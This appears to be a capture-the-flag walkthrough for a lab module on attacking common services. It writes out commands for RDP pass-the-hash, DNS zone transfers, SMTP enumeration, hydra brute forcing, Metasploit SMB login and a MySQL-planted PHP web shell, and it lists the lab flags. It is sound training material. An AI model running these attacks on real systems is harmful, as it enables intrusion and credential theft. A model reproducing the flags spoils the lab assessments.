
*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


### Lets see what tables we have on that database

Access granted.
Lets see what tables we have on that database:
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE
TABLE_TYPE = 'BASE TABLE' AND TABLE_CATALOG = 'flagDB';


The table is 'tb_flag'.
Lets get the content of that table:
select * from tb_flag;


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


### Attacking RDP

> **Lab Question (Page 16)**: What is the name of the file that was left on the Desktop? (Format example: filename.txt)
>
> **Flag / Answer**: `pentest-notes.txt`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets RDP login to the target machine with the provided credentials
'htb-rdp:HTBRocks!' using the command:
```bash
xfreerdp /v:<Target IP> /u:htb-rdp /p:HTBRocks! /dynamic-
```
resolution


We immidiaetly can observe the file on the desktop – 'pentest-notes.txt'

Question: Which registry key needs to be changed to allow Pass-the-Hash with
the RDP protocol?
Answer: DisableRestrictedAdmin
Method: 'restricted Admin Mode, which is disabled by default, should be enabled on the
target host; otherwise, we will be prompted with the following error:
This can be enabled by adding a new registry key DisableRestrictedAdmin (REG_DWORD)
under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa.'


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


### The full message in the file is this

> **Lab Question (Page 17)**: Connect via RDP with the Administrator account and submit the flag.txt as you answer.
>
> **Flag / Answer**: `HTB{RDP_P4$$_Th3_H4$#}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets open the 'pentest-notes.txt' we found:

The full message in the file is this:
'We found a hash from another machine Administrator account, we tried the
hash in this computer but it didn't work, it doesn't have SMB or WinRM open,
RDP Pass the Hash is not working.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824'

Well then – lets enable RDP pass the hash, and RDP login with the
administrator hash.
To enable RDP we will change the 'DisableRestrictedAdmin' registry key, we will
```bash
use the cmd command:
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t
REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f


Now we exit the 'htb-rdp' RDP session, and RDP login with the administrator
hash, using the xfreerdp command:
```bash
xfreerdp /v:<target-IP> /u:Administrator
```
/pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### Here is the flag

Here is the flag:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### Attacking DNS

> **Lab Question (Page 19)**: Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.
>
> **Flag / Answer**: `HTB{LUIHNFAS2871SJK1259991}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will have to run subdomain brute-force enumeration.
We will use the tool 'subbrute'
Lets clone it and ready it for execution:
git clone https://github.com/TheRook/subbrute.git >>
/dev/null 2>&1

```bash
cd subbrute
```


Before we proceed, we need find the nameserver of the domain, we will use
the command:
```bash
dig ns inlanefreight.htb @<target-IP>
```
a single answer – 'ns.inlanefreight.htb'. that's our nameserver:


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### and in it

Now, we need to link the nameserver to the target IP in '/etc/hosts':
```bash
sudo nano /etc/hosts
```
and in it:
<target-IP> ns1.inlanefreight.htb


Back to 'subbrute' folder:
Lets put the nameserver in the 'resolvers.txt'.
```bash
echo "ns.inlanefreight.htb" > resolvers.txt
```

./subbrute.py inlanefreight.htb -s names.txt -r
resolvers.txt


It found some results before it collapsed with an error, after some trial and
error – Lets check the 'hr.inlanefreight.htb' subdomain, and run zone transfer
on it:


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


```bash
dig axfr @<target-IP> hr.inlanefreight.htb
```


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


### Attacking Email Services

> **Lab Question (Page 22)**: What is the available username for the domain inlanefreight.htb in the SMTP server?
>
> **Flag / Answer**: `marlin`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will get the 'users.list' from the resources bag to the pwnbox, and
```bash
run smtp bruteforce using the command:
```
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t
<target-IP>


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


### Pop3 CLI is opened, lets login

> **Lab Question (Page 23)**: Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.
>
> **Flag / Answer**: `HTB{w34k_p4$$w0rd}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the last screenshot in the previous question – we will take the
username combined with the domain (which together comprised the mail),
and run pop3 brute force, using hydra on the resources bag 'pws.list':
```bash
hydra -l marlin@inlanefreight.htb -P pws.list -f
```
pop3://<target-IP>


The credentials are 'marlin@inlanefreight.htb:poohbear'.
Now, time to login to the pop3 email service and get the flag:
telnet <target-IP> 110


Pop3 CLI is opened, lets login:
USER marlin@inlanefreight.htb
PASS poohbear


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### 1 message, lets open it

Mailbox is locked and ready, we are in. lets list the mails:
LIST


1 message, lets open it:
RETR 1


*
*


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


*_Figure 24.4 — Lab execution and output verification (Page 24)_*


### Capstone: Skills Assessment

> **Lab Question (Page 25)**: You are targeting the inlanefreight.htb domain. Assess the target server and obtain the contents of the flag.txt file. Submit it as the answer.
>
> **Flag / Answer**: `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

*note – as it took me several sessions to solve this, the target IP
addresses may change throughout the screenshots. *
we will begin with nmap the target machine to see what services are running
our there:

The machine is running smtp, lets use that to run username emumaration. We
will download from the resources bag the 'users.list' file, and run the following
enumeration command:
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t
<target-IP>


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### with hydra, using rockyou.txt wordlist

We found the username 'fiona',or more precisely – 'fiona@inlanefreight.htb' as
valid username. Lets get her password, we will bruteforce the smtp service
with hydra, using rockyou.txt wordlist:
```bash
hydra -l fiona@inlanefreight.htb -P rockyou.txt -f
```
smtp://<target-IP>


The credentials are: 'fiona:987654321'.
Now that we know the credentials, lets open the https website, which we saw
running on the nmap scan:
https://<target-IP>


And we will be required to enter credentials:


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


### download them and open them in the pwnbox

We will enter the obtained fiona credentials: 'fiona:987654321', and go in

It seems to got to some file server, with 2 files available for download. Lets
download them and open them in the pwnbox:

What we can see, that there are 2 servers running on the machine, the first one
– CoreFTP service is running on port 21 and 443, is the FTP server. Where we
just accesses via the https, and can upload and download files, which are
stored in the path of 'C:\CoreFTP'. And Apache service, running on http port 80
(and 4443) – which its files are stored in 'C:\xampp\htdocs'.
Lets take a look in the http website:
http://<target-IP>


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


### login with the command

#### Technical Methodology & Exploit Execution:

mysql -h <target-IP> -P 3306 -u fiona -p


We are in.
To upload the webshell - We will use the command:
SELECT "<?php system($_GET['cmd']); ?>" into outfile
"C:\\xampp\\htdocs\\backdoor.php";
Naming it 'backdoor.php'


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


### Lets have a small test of running 'whoami'

The file is uploaded.
Lets have a small test of running 'whoami':
http://<target-IP>/backdoor.php?cmd=whoami


We are system.
Now lets run 'dir':
http://<target-IP>/backdoor.php?cmd=dir


We can see the 'backdoor.php'here along with other files. We are also can see
the present working directoy (in the first output line).
After some trial and error about flag can be found in the Admininistrator's
Desktop:
http://<target-IP>/backdoor.php?cmd=dir
C:\Users\Administrator\Desktop


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


*_Figure 29.4 — Lab execution and output verification (Page 29)_*


### Now we can get the flag, using 'type' command

#### Technical Methodology & Exploit Execution:

http://<target-
IP>/backdoor.php?cmd=type%20C:\Users\Administrator\Desktop\f
lag.txt


We can also get the file from the mysql CLI, using 'LOAD_FILE' function (in
theory it doesn't required the webshell, but the webshell was used to locate
the flag's path):
select
LOAD_FILE('C:\\Users\\Administrator\\Desktop\\flag.txt');
or
select LOAD_FILE('C:/Users/Administrator/Desktop/flag.txt');


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


### Attacking Common Services - Medium

> **Lab Question (Page 31)**: Assess the target server and find the flag.txt file. Submit the contents of this file as your answer.
>
> **Flag / Answer**: `HTB{1qay2wsx3EDC4rfv_M3D1UM}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets start with nmap scan to determine what services are running on
the server, we will make sure to scan ALL ports:
```bash
nmap <target-IP> -p-
```
we can see it is a ubuntu machine, running ssh, dns, pop3 and ftp proxy.

Port 30021 looks interesting:
```bash
nmap <target-IP> -p 30021 -sV
```


It seems we are dealing with ftp port.


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


### Lets conduct further scans on it

Lets conduct further scans on it:
```bash
nmap <target-IP> -p 30021 -sV -sC
```


anonymous FTP login is enabled.

Lets see what's inside:
ftp <target-IP> 30021
and 'ls' the server:

There is a directory called 'simon'.


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


### Lets enter it, see what's inside and get it

Lets enter it, see what's inside and get it:

We've downloaded from the ftp server 'mynotes.txt'.
Lets open the 'mynotes.txt' file see what's inside:

We can use 'simon' username and the mynotes.txt as password list to attempt
to bruteforce the ssh service, also found on the nmap scan
```bash
hydra -l simon -P mynotes.txt ssh://<target-IP>
```


We found a password – the credentials are 'simon:8Ns8j1b!23hs4921smHzwn'


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


### then enter the password

Lets ssh login to the target machine using the obtained credentials:
```bash
ssh simon@<target-IP>
```
then enter the password:

We are in. lets see what's is in the home's directoy, and take the flag in it:


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


### Attacking Common Services - Hard

> **Lab Question (Page 35)**: What file can you retrieve that belongs to the user "simon"? (Format: filename.txt)
>
> **Flag / Answer**: `random.txt`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets start by nmap scan the server:
```bash
nmap <target-IP>
```


We have smb service running, on the windows machine.

As we are told in the question to look for the user simon – lets use Metasploit
to bruteforce the user simon, along with the resources bag password list:

```bash
msfconsole
```
to open Metasploit console, and in it we run the following settings:
```bash
use auxiliary/scanner/smb/smb_login
set SMBUser simon
set pass_file pws.list
set rhosts <target-IP>
set VERBOSE false
set STOP_ON_SUCCESS true
```


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


### Lets see what shares simon can access

Credentials found: 'simon:liverpool'

Lets see what shares simon can access:
```bash
crackmapexec smb <target-IP> -u simon -p liverpool --shares
```


*
*

